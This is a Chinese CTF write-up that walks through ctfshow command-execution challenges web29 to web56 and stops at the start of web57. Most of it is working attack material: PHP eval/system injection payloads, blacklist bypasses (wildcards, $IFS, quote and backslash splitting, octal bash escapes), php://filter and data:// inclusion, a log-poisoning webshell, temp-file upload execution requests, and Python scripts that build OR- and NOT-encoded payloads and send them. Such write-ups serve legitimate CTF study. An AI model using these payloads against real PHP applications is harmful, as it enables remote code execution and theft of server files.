


# 命令执行

## web29

题目如下:eval()执行传入的php语句,但是过滤flag并且不区分大小写


传入`echo shell_exec("cat f*.php");`即可,另外由于get请求要进行url编码空格变'+'


## Web30

题目:过滤flag|system|php


和上一题同样的绕过方法`echo+shell_exec("cat+f*.*");`


提示的: echo \`nl fl''ag.p''hp\`;也可以绕过采用了字符串拼接的方法,这里用了两个\`\`反引号用于执行shell命令,nl用于查看文件内容并标注行号输出


## Web31

题目:


### 方法一:参数逃逸

用在创建一个eval执行入口`/?c=eval($_GET["a"]);&a=echo+shell_exec(cat+f*.*);`


### 方法二:

hint给出的方式c=show_source(next(array_reverse(scandir(pos(localeconv())))));

var_dump(scandir(pos(localeconv()))); // 查看当前目录内容

// array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(8) "flag.php" [3]=> string(9) "index.php" }

getcwd() 可以代替pos(localeconv())

这个方法注意是用php函数拼凑出需要的字符串,关键函数是**scandir(pos(localeconv()))**

> localeconv()：返回包含本地化数字和货币格式信息的关联数组。这里主要是返回数组第一个"."
> pos():输出数组第一个元素，不改变指针；
> scandir();遍历目录，这里因为参数为"."所以遍历当前目录
> array_reverse():元组倒置
> next():将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以
> show_source():查看源码
> getcwd():获取当前路径
>
> 相关的方法：
>
> current()返回数组中的当前元素的值。
>
> end()将内部指针指向数组中的最后一个元素，并输出。
>
> next()将内部指针指向数组中的下一个元素，并输出。
>
> prev()将内部指针指向数组中的上一个元素，并输出。
>
> reset()将内部指针指向数组中的第一个元素，并输出。
>
> each()返回当前元素的键名和键值，并将内部指针向前移动。

查看当前目录文件`?c=print_r(scandir(pos(localeconv())))`


可以直接`?c=show_source(scandir(pos(localeconv()))[2])`就可以查看flag源码



## Web32

新增过滤  `echo ; (`，用不了函数了，考虑构造文件包含


### 方法一：php://伪协议读取文件

构造文件包含：`?c=$b=include%0a$_GET["a"]?>&a=/etc/passwd`

- 然后是%0a作用，这是url回车符，因为空格被过滤。事实上，删去也无所谓，似乎php会自动给字符串和变量间添加空格（经检验，只在eval中有效，echo中无效，还是得要空格）
- 后面的?>的作用是作为绕过分号，作为语句的结束。原理是：php遇到定界符关闭标签会自动在末尾加上一个分号。简单来说，就是php文件中最后一句在?>前可以不写分号。

文件包含利用：php伪协议读取源码 `php://filter/read=convert.base64-encode/resource=flag.php`


### 方法二：data://伪协议构造rce

文件包含利用伪协议实现命令执行：`?c=$b=include$_GET[%22a%22]?%3E&a=data://text/plain,<?php+system("ls")?>`

使用的伪协议data://text/plain,明文


使用伪协议data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyIpOyA/Pg==


使用伪协议php://input


### 方法三：日志包含

nginx日志：/var/log/nginx/access.log

文件包含的利用：在UA中写入webshell `<?php system($_GET[cmd]);?>`，写入nginx日志，然后包含nginx日志，造成rce

注意：要第二次才会有结果，因为第一次往日志中写入webshell，第二次访问webshell才会被包含


## Web33

新增过滤：“


直接用上一题payload就可以不过要吧 ” 去了引号不影响$_GET[]获取参数

?c=$b=include%0a$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php


.png)

## Web34

题目新增：':


依旧用上面的payload即可：?c=$b=include%0a$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php


## Web35

题目：新增过滤 = <


修改下上面的payload,把$b=去掉就可以 /?c=include%0a$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php


## Web36

题目：新增过滤[0-9]数字


依然用上面的payload /?c=include%0a$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

## Web37

题意：当不匹配flag时进入if，里面包含了$c 并 echo $flag


随便传入一个`/?c=/etc/passwd`，触发文件包含但是没有flag，仔细看了下源码这里的php里并没有定义$flag，所以直接利用之前的文件包含利用：php://input协议构造命令执行


或者data伪协议构造命令执行，读出flag.php`/?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==` 由于过滤了flag，所以使用base64构造，或者也可以用 `/?c=data://text/plain,<?php+system("cat+f*.php");?>`


## Web38

在上一题基础上新增过滤：php file

直接用base64编码那条payload

`/?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==`

flag: ctfshow{402de529-10b9-456e-babe-8730515a77d2}

## Web39

题目：做了个拼接在包含


`/?c=data://text/plain,<?php+system("cat+f*.php");?>`

?>为php结束符号，后面拼接的.php会被忽略掉，不用管

flag：ctfshow{f1fbed51-0d0f-4b05-9cb5-7ec88138dd4d}

## Web40

题目：过滤了一堆特殊字符过滤$用不了参数逃逸的方法，过滤 : “ / 不能使用构建文件包含的方法，另外还过滤了一堆东西


### 方法一：

过滤了一堆东西，不过没过滤 )所以可以使用函数，想到之前web31的方法 ：`/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`


### 方法二：get_defined_vars()函数实现参数逃逸

参考Tianze师傅的方法

c=eval(array_pop(next(get_defined_vars())));//需要POST传入参数为1=system('tac fl*');

get_defined_vars() 返回一个包含所有已定义变量的多维数组。这些变量包括环境变量、服务器变量和用户定义的变量，例如GET、POST、FILE等等。

next()将内部指针指向数组中的下一个元素，并输出。

array_pop() 函数删除数组中的最后一个元素并返回其值。

``````
POST /?c=eval(array_pop(next(get_defined_vars()))); HTTP/1.1
Host: 9e89ade3-a873-47dc-93db-317b19fb8d8c.challenge.ctf.show
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close
Content-Length: 20
Content-Type: application/x-www-form-urlencoded

1=system('cat fl*');
``````


> `get_defined_vars()` 是 PHP 中的一个函数，它用于获取当前符号表中所有已定义的变量。符号表是 PHP 用来存储变量名和它们对应值的数据结构。
>
> 当你调用 `get_defined_vars()` 函数时，它会返回一个数组，其中包含了当前作用域内所有已定义的变量。这个函数在调试和测试时非常有用，因为它可以帮助你快速查看当前作用域内有哪些变量可用
>
> 

既然可以通过post方法逃逸也可以通过get方法参数逃逸

payload：`?c=eval(next(reset(get_defined_vars())));&pay=system("tac flag.php");`

>  reset()将指针指回第一个变量及c
>
> next()，c的下一个变量既pay


### 方法三：sessionid读取变量

用session_id();读取sessionid

/?c=session_start();system(session_id());

设置sessionid

Cookie: PHPSESSID=ls;

```GET /?c=session_start();system(session_id()); HTTP/1.1
GET /?c=session_start();var_dump(get_defined_vars());system(session_id()); HTTP/1.1
Host: 86062c19-8c16-44f1-bb40-0ef4202c2207.challenge.ctf.show
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Cookie: PHPSESSID=ls;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close


```


## Web41：或运算构造payload

题目：这个题过滤了$、+、-、^、~使得异或自增和取反构造字符都无法使用，同时过滤了字母和数字。但是特意留了个或运算符|。
我们可以尝试从ascii为0-255的字符中，找到或运算能得到我们可用的字符的字符。


思路如下：

- 首先对ascii从0-255所有字符中筛选出未被过滤的字符，然后两两进行或运算，存储结果。
- 跟据题目要求，构造payload的原型，并将原型替换为或运算的结果
- 使用POST请求发送c,获取flag

利用0ec9490361cd9c3837fa061dd39dd649e766dc54师傅的脚本构造payload

``````python
import re
import urllib
from urllib import parse
import requests

contents = []

for i in range(256):
    for j in range(256):
        # 转换成16进制
        hex_i = '{:02x}'.format(i)
        hex_j = '{:02x}'.format(j)
        preg = re.compile(r'[0-9]|[a-z]|\^|\+|~|\$|\[|]|\{|}|&|-', re.I)
        # 匹配该16进制对应的ascill码对应的字符能否通过正则
        if preg.search(chr(int(hex_i, 16))) or preg.search(chr(int(hex_j, 16))):
            continue
        else:
            a = '%' + hex_i
            b = '%' + hex_j
            c = chr(int(a[1:], 16) | int(b[1:], 16))
            # ASCII 码值从 33 到 126 是可打印字符，包括标点符号、数字、大写和小写字母等。
            if 32 <= ord(c) <= 126:
                contents.append([c, a, b])


def make_payload(cmd):
    payload1 = ''
    payload2 = ''
    for i in cmd:
        for j in contents:
            if i == j[0]:
                payload1 += j[1]
                payload2 += j[2]
                break
    # 用两个可以通过正则的字符的ascii码或运算构造正确的payload从而绕过正则
    payload = '("' + payload1 + '"|"' + payload2 + '")'
    return payload


URL = input('url:')
# 构造出来的payload解析后为(system)(cat flag.php)
payload = make_payload('system') + make_payload('cat flag.php')
print(payload)
response = requests.post(URL, data={'c': urllib.parse.unquote(payload)})
print(response.request.body)
print(response.text)
``````

测试(system)(cat flag.php)是可以运行的


flag: 


### ~取反构造

例：[鹏城杯 2022\]简单的php | NSSCTF](https://www.nssctf.cn/problem/2420)

题目：

```php
<?php
show_source(__FILE__);
    $code = $_GET['code'];
    if(strlen($code) > 80 or preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/is',$code)){
        die(' Hello');
    }else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
        @eval($code);

    }

?> 
```

exp：

```python
### 使用哪个payload需要构造print_r(getallheaders())的payload查看http头中新增http头的所在是数组头还是数组未,文末看具体例子
## Linux通常再数组尾部
# command = "system(end(getallheaders()))"
# cmd = "ls /;cat /nssctfflag;"

## windows通常再数组头部
# command = "system(current(getallheaders()))"
# cmd = "dir;whoami;"

command = "print_r(getallheaders())"

host = "node4.anna.nssctf.cn:28674"

##异或取反脚本
codes = command.replace(")","").split("(")[:-1][::-1]
res = ""
inline = ""
res2 = ""
inline2 = ""
for code in codes:
    re_code = "~"+"".join(["%"+hex(255 - ord(i))[2:]for i in code])
    res = f"[{re_code}][!%ff]({inline})"
    res2 = f"({re_code})({inline2})"
    inline = res
    inline2 = res2
    # print(res)
res += ";"
res2 += ";"
print(f'payload1: {res}')
print(f'payload2: {res2}')

##发送数据
# raw = f'''GET /?code={res} HTTP/1.1
# Host: {host}
# Connection: close
# Content-Length: 0
# cmd: {cmd}


# '''.replace("\n","\r\n").encode()

# print(raw)

'''
例如：
req:
GET /test1.php?code=(~%8f%8d%96%91%8b%a0%8d)((~%98%9a%8b%9e%93%93%97%9a%9e%9b%9a%8d%8c)()); HTTP/1.1
Host: 10.10.10.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _ga=GA1.1.742250855.1729494993; _ga_R1FN4KJKJH=GS1.1.1729494993.1.1.1729495564.0.0.0
Connection: close
CMD: dir;        <===============这个


resp:
Array
(
    [Cmd] => dir;      <===============这个
    [Connection] => close
    [Cookie] => _ga=GA1.1.742250855.1729494993; _ga_R1FN4KJKJH=GS1.1.1729494993.1.1.1729495564.0.0.0
    [Accept-Language] => zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
    [Accept-Encoding] => gzip, deflate, br
    [Accept] => text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    [User-Agent] => Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0
    [Upgrade-Insecure-Requests] => 1
    [Host] => 10.10.10.1
)
'''
```

## Web42

题目：


`>/dev/null 2>&1`的意思是将标准输出定位到/dev/null，错误输出定位到标准输出既/dev/null，而/dev/null相当于linux中的垃圾桶，也就是将不会输出执行结果，不过可以用 `;` 将命令变成两句执行完，前一句再进行标准输出的重定向，payload：`ls;` `cat flag.php;`


## Web43(cat替代||空格替代)

题目：过滤 `; cat` 绕过思路就找一个命令替代 `cat` 找一个拼接符号替代 `;` [%26| ‘||’ |%0a |%26%26(隔断符)] %26是&的url编码

> cat的替待more|less|head|sort|tail|c\at|c''at|nl|tac|sed|cut|awk|strings|od|curl|vi|uniq|**/bin/?at**
>
> 任何字符串过滤都可以再中间加\


payload：`?c=tac flag.php|| ` `?c=nl flag.php%0a`

> ; //分号
> | //只执行后面那条命令
> || //只执行前面那条命令
> & //两条命令都会执行
> && //两条命令都会执行
>
> 在Unix和类Unix系统中，有多种命令可以用来查看文本文件的内容。以下是一些常用的命令：
>
> 1. `cat`：用于连接文件并打印到标准输出设备上。
>
>    bash
>
>    ```bash
>    cat filename.txt
>    ```
>
> 2. `less`：一个分页程序，允许用户逐步浏览文件内容。
>
>    bash
>
>    ```bash
>    less filename.txt
>    ```
>
> 3. `more`：类似于 `less`，但功能较少，不支持回滚。
>
>    bash
>
>    ```bash
>    more filename.txt
>    ```
>
> 4. `head`：显示文件的开头部分，默认显示前10行。
>
>    bash
>
>    ```bash
>    head filename.txt
>    ```
>
> 5. `tail`：显示文件的末尾部分，默认显示最后10行。常用于查看日志文件。
>
>    bash
>
>    ```bash
>    tail filename.txt
>    ```
>
> 6. `tac`：与 `cat` 相反，用于从最后一行开始反向打印文件内容。
>
>    bash
>
>    ```bash
>    tac filename.txt
>    ```
>
> 7. `nl`：类似于 `cat`，但会在输出的每一行前面加上行号。
>
>    bash
>
>    ```bash
>    nl filename.txt
>    ```
>
> 8. `od`：以八进制或其他格式显示文件内容，通常用于查看二进制文件。
>
>    bash
>
>    ```bash
>    od -c filename.txt
>    ```
>
> 9. `grep`：用于搜索文件内容，可以匹配特定的模式。
>
>    bash
>
>    ```bash
>    grep "pattern" filename.txt
>    ```
>
> 10. `awk`：一个强大的文本处理工具，可以用来查看和处理文本文件。
>
>     bash
>
>     ```bash
>     awk '/pattern/' filename.txt
>     ```
>
> 11. `sed`：流编辑器，可以用来查看和处理文本文件，通过执行文本替换。
>
>     bash
>
>     ```bash
>     sed -n '1,5p' filename.txt
>     ```
>
> 12. `sort`：排序文件内容，虽然不是直接查看，但可以用来组织数据以便查看。
>
>     bash
>
>     ```bash
>     sort filename.txt
>     ```
>
> 13. `uniq`：报告或忽略重复的行，通常与排序后的文件一起使用。
>
>     bash
>
>     ```bash
>     sort filename.txt | uniq
>     ```
>
> 14. `cut`：提取行中的特定字段。
>
>     bash
>
>     ```bash
>     cut -d' ' -f2 filename.txt
>     ```


## Web44

比上一题多过滤了个flag

payload `?c=tac f*||` `?c=tac f''lag.php||` 

## Web45(空格替代)

过滤空格`$IFS|%09|tac${IFS}flag.txt|{cat,flag.php}|cat<flag.php`绕过

`/?c=tac$IFS$9f*.php||`  `/?c=tac$IFS*||` `/?c=tac%09f*||`

- `$IFS`：这是Bash shell中的一个特殊变量，代表内部字段分隔符（Internal Field Separator），通常用于分割字符串。默认情况下，它包含空格、制表符和换行符。

- `$9` 是一个特殊变量，用于表示传递给脚本的第九个参数。在 Unix 和类 Unix 操作系统中，shell 脚本可以接收命令行参数，这些参数在脚本中以 `$1`、`$2`、`$3` 等形式表示，其中 `$1` 是第一个参数，`$2` 是第二个参数，依此类推，直到 `$9` 表示第九个参数。

  例如，如果你有一个脚本 `script.sh`，并且在命令行中这样调用它：

  bash

  ```bash
  ./script.sh param1 param2 param3 param4 param5 param6 param7 param8 param9 param10
  ```

  在这个脚本内部，`$9` 的值将会是 `param9`，而 `$10` 的值将会是 `param10`。如果脚本被调用时传递的参数少于9个，`$9` 将会是空的。

这里$9想到于一个分隔符由于传参少于9个所以$9为空，也可以用其他代替,用于分隔$IFS和f

## Web46

题目过滤：preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c),新增$,*

思路：

- 绕过flag不能用*通配符的办法，只能找flag.php的替代，这里用fla''g.php类比web44
- 绕过替代空格选用Web45的方法即可{cat,fla''g.php}的方法不行，应该是因为 `''`的原因吧


payload:`/?c=tac<fla''g.php` `ca\t<fl\ag.php||`

大佬的payload: `/?c=tac%09fla?.php||`    //用`?`代替`*`,`?`和`*`都是通配符不过*匹配多个字符?匹配一个字符

## Web47

题目：过滤 `preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i"`找个替代打印的就可以

payload `/?c=ca\t<fl\ag.php||` `nl%09fla?.php||`

## Web48

题目：新增过滤`preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i"`

payload `/?c=ca\t<fl\ag.php||` `nl%09fla?.php||`

## Web49

题目：新增过滤 \`|% 这里过滤%对使用%09没有没有影响原因是这里的%09表示16进制编码的tab

```preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)```

payload `/?c=ca\t<fl\ag.php||` `nl%09fla?.php||`

flag `ctfshow{81f1cab9-24bc-46ec-98cc-74c1806ef9b4}`

## Web50

题目新增：\x09|\x26表示十六进制的09和26,也就是说上面的%09(tab)做分隔符、%26(&)做结束符的绕过不能用了

```preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c) ```

这里不知道为什么没过滤?但不能用?做通配符了

payload `/?c=ca\t<fl\ag.php||` `nl<fla''g.php||`

flag:`ctfshow{cd263909-d578-4d5c-8ea7-cdc17ccb376e}`

## Web51

题目新增：tac过滤，使用nl|ta\c|ta''c|vi

```preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)```

payload `/?c=nl<fl\ag.php||` `ta\c<fla''g.php||`

flag: `ctfshow{2b9f7a14-9fb5-445b-a9f9-dd9d39bf9e0b}`

## Web52

题目新增：<|>但是少了个$，用$IFS代替空格

preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)

payload: `/?c=nl$IFS/fla\g||` 这里flag在根目录下?c=ls$IFS/||


flag `ctfshow{9bf0defc-f474-4390-9a47-d19be8e9702f}`

## web53

题目新增过滤：

- [0,9]不能使用$IFS$9flag.php的方法代替空格，也不能用  <（输入重定向）
- 另外过滤|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|可以用ta''c或者ta\c的方式绕过，也可以用没过滤的vi，nl绕过


payload: `/?c=ta%27%27c${IFS}fla%27%27g.php`

flag:`ctfshow{d33ed7db-47ea-4d03-b88a-5fd8eb767e16}`

## Web54

题目过滤：不能使用ca''t或者ca\t的方法绕过了，flag过滤就用?通配符

``````
preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)
``````

- 思路一：找命令替代cat，想到一个vi看其他师傅用了个uniq
- 思路二：hint中给了个/bin/ca?${IFS}fla?.php，命令也能用通配符
- 思路三：另外由于mv或者copy之类的命令没有过滤，所以想到之前提权的一些手法，将命令重命名
  `mv${IFS}/bin/?at${IFS}/bin/a  /bin/a${IFS}fla?.php` 

payload: `/?c=vi${IFS}f???.php` `/?c=uniq${IFS}f???.php`

flag: `ctfshow{01b2beac-bc2e-4197-82dd-d4e88c5a9d8f}`

## Web55

题目：

``````php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 20:03:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
``````


### 思路一：. 命令+phpPOST文件特性实现无数字字母执行命令

无数字字母webshell ，“反引号”是PHP中最简单的执行shell的方法。

``````
?><?=`. /???/????????[@-[]`;?>
``````

#### 原理

1. PHP中post传入的文件会临时保存到/tep/phpXXXXXX（例如：/tmp/phpcjggLC）的文件中，当会话结束时删除该文件

2. linux中用 `. filename` 来执行命令
3. 结合上面两点我们就可以通过post传入 sh 脚本get传参c=. /tmp/sh脚本就可以执行脚本中的命令
4. 但是由于XXXXXX是随机值而且不能传入字母，所以使用通配符?，但是对于/???/?????????这样的文件不只传入的临时文件（例如：/bin/run-parts|/etc/issue.net 这样的文件）
5. 所以还要找到该文件区别于其他文件的特性。可以看到临时文件中带有随机的大写字母，所以可以用这点来区别其他文件，所以构造了`. /???/????????[@-[]`的命令来执行临时文件（@和]在ascii码表中间是大写字母）

payload: 由于/tep/phpXXXXXX（例如：/tmp/phpcjggLC）是随机字符所以发送一次不一定会生成结尾大写的临时文件多执行几次

``````
POST /?c=.%20/???/????????[@-[] HTTP/1.1
Host: 8dd1a3c6-778a-4811-b9fd-bb1a7cd05ea4.challenge.ctf.show
Content-Length: 291
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryd3yDdMgKxVlM6vGA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close

------WebKitFormBoundaryd3yDdMgKxVlM6vGA
Content-Disposition: form-data; name="file"; filename="1.sh"
Content-Type: text/x-sh

#!/bin/sh

ls
------WebKitFormBoundaryd3yDdMgKxVlM6vGA
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundaryd3yDdMgKxVlM6vGA--

``````

flag=ctfshow{d424d159-c449-4d59-902c-2356ca30eeff}

### 思路二：字符替换

由于过滤了字母，但没有过滤数字，我们尝试使用/bin目录下的可执行程序。

但因为字母不能传入，我们需要使用通配符?来进行代替

?c=/bin/base64 flag.php

替换后变成

?c=/???/????64 ????.???

### 思路三：bashfuck—bash无字母命令执行

https://probiusofficial.github.io/bashFuck/ 在线生成

转换脚本

``````
def common_otc(cmd):
    payload = '$\''
    for c in cmd:
        if c == ' ':
            payload += '\' $\''
        else:
            payload += '\\' + get_oct(c)
    payload += '\''
    return info(payload)
``````


使用

```
$'\154\163'
```

会执行`ls`

故payload是

```
/?c=$'\143\141\164'%20*
/?c=$'\164\141\143' $'\146\154\141\147\56\160\150\160'
```

## Web56

题目：

``````php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
``````

新增了：[0-9]|%|$|(|\{|\'|\"|

不能用之前的方法二、方法三了不过过滤拦截不了方法一

payload

``````
POST /?c=.%20/???/????????[@-[] HTTP/1.1
Host: d0bcb0a5-63d9-414f-b27b-7e66b9078bbc.challenge.ctf.show
Content-Length: 301
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryd3yDdMgKxVlM6vGA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close

------WebKitFormBoundaryd3yDdMgKxVlM6vGA
Content-Disposition: form-data; name="file"; filename="1.sh"
Content-Type: text/x-sh

#!/bin/sh

tac flag.php
------WebKitFormBoundaryd3yDdMgKxVlM6vGA
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundaryd3yDdMgKxVlM6vGA--

``````

flag：`ctfshow{10116380-856d-4369-96a4-6ebacda2b00d}`

## Web57

题目：

``````php
<?php

/*
# -*- coding: utf-8 -*-
